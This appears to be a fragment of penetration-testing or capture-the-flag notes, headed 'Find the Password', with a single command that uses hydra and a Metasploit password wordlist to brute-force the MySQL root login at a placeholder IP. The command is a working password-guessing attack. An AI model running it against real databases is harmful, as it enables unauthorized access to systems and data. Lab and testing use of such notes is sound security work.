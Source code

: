 ##### Find the Password
```
hydra -l root -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt mysql://IP
```